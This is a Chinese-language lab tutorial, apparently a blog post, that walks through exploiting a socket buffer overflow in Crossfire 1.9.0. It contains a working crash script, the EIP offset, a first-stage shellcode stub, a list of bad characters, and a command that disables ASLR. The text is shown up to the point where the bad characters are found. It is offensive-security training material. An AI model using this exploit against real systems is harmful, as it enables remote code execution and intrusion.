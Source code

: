 ```yaml
---
title: 缓冲区溢出案例（三）
categories:
- buffer overflow
tags:
- buffer overflow
---
```


参考资料：[kali linux之edb--CrossFire缓冲区溢出](https://blog.csdn.net/zixuanfy/article/details/52578072)

Crossfire 1.9.0在接受socket连接的时候，有着bof漏洞。

## 搭建靶机

```
mkdir /usr/games    
#必须在该目录下运行crossfire，否则程序会报错
#Cannot open bmaps file /usr/games/crossfire/share/crossfire/bmaps: No such file or directory

cd /usr/games;wget www.offensive-security.com/crossfire.tar.gz;tar zxpf crossfire.tar.gz

cd crossfire/bin

gdb /usr/games/crossfire/bin/crossfire
run

---
当程序提示溢出错误的时候，可以运行run，输入y，重新调试程序

当需要重新运行的时候，可以结束进程重新运行。
pgrep crossfire | xargs kill -s 9
---
关闭ASLR
echo 0 > /proc/sys/kernel/randomize_va_space
```
![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-28-12/1.PNG)

`Waiting for connections...`

面板最后出现了这样的语句，代表程序正常运行。

## （exp.py demo）让程序报错
开始调试bof漏洞
```
#!/usr/bin/python
import socket
host = "目标IP"
crash="\x41" * 4379

buffer = "\x11(setup sound " + crash + "\x90\x00#"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print "[*]Sending evil buffer..."

s.connect((host, 13327))
data=s.recv(1024)
print data
s.send(buffer)
s.close()
print "[*]Payload Sent !"
```
![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-28-12/2.PNG)
程序报错，段错误，返回地址被`0x41`填充

## 定位缓冲区大小
`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 4379`

修改python脚本，crash="pattern_create生成的字符串"

运行后得到一个地址，`0x46367046`
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-28-12/3.PNG)

```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 4379 -q 46367046

[*] Exact match at offset 4368
```
缓冲区长度为4379，EIP地址为为4368后的4字节。

## 测试是否找到EIP地址
修改python脚本`crash="\x41" * 4368 + "B"*4 + "C"*7`

确保报错的是0x42424242，表示EIP地址被字符B所覆盖。确认找到了EIP指令寄存器的位置。
![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-28-12/4.PNG)

## 找出shellcode占用的空间
edb 

运行linux平台，图形化界面的调试器。图形化界面方便同时观察所有寄存器的状态。

点击图中的run按钮，运行crossfire程序，然后运行exp.py让程序报错。

![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-28-12/6.PNG)

在崩溃的时候，我们再次检查任何可能帮助我们找到buffer的寄存器。

选中EAX寄存器，右键 follow in dump，即可跳转到EAX所指地址。
![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-28-12/7.PNG)

在这个案例中，EAX寄存器看起来指向buffer的起始位置，包含了字符串“setup sound ”

但是EAX寄存器没有直接跳转到缓冲区（缓冲区的起始地址以A字符串开头），这可能会影响执行exp，导致失败。

在这种情况下，跳转到EAX可能实际上对我们有用。 但是，这不是一个很好的解决方案。 咱们试试更难的方案。

## 提高exp可用性

看起来ESP寄存器指向了缓冲区的C地址，在崩溃的时候，没有给我们足够的空间放置shellcode。

不像之前的slmail bof案例，增加 setup sound 字符串的长度，将会导致应用不同的崩溃。然而，在崩溃时，我们可以使用ESP寄存器指向的字节，来创建第一个阶段的shellcode。它可以使得ESP寄存器与缓冲区的A字符起始位置对齐，跳过字符串“setup sound"

为了达到这个目的，我们第一阶段的shellcode将会需要添加12比特给EAX寄存器，然后跳转到EAX。让我们看看这个shellcode demo是怎样的。

```
nasm_shell 汇编指令转十六进制

/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
add eax,12
jmp eax
```
![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-28-12/5.PNG)

然后写成16进制即可。幸运的是，这两个指令只用了5字节的内存——`\x83\xc0\x0c\xff\xe0`

## 发现坏字符
和[上一篇](https://whale3070.github.io/buffer%2520overflow/2020/01/15/03-x/)类似，发送[exp.py](https://raw.githubusercontent.com/Whale3070/ctf-coding/master/badchar-bof.py)

注意crash中exp的写法，`crash= badchars + "\x41" * 4368`

第一段是坏字符，目的是检查是否有badchar截断后续的字符。
第二段目的是覆盖返回地址，使得程序报错，方便调试。

点击图中的EBP寄存器，extended base pointer，它总是指向栈底。右键follow in dump，来跳转到EBP指向的地址。

发现有规律的字符`01 02 03 04 05 06 07 08`，失去了`09`，说明它是坏字符。

删除exp.py中 `\x09`，重复以上操作。发现坏字符`\x0a`

删除exp.py中 `\x0a`，重复以上操作。发现坏字符`\x20`

`\x00\x09\x0a\x20`   是坏字符

badchar坏字符跟操作系统、程序有关，不同的系统运行坏字符可能并不相同。

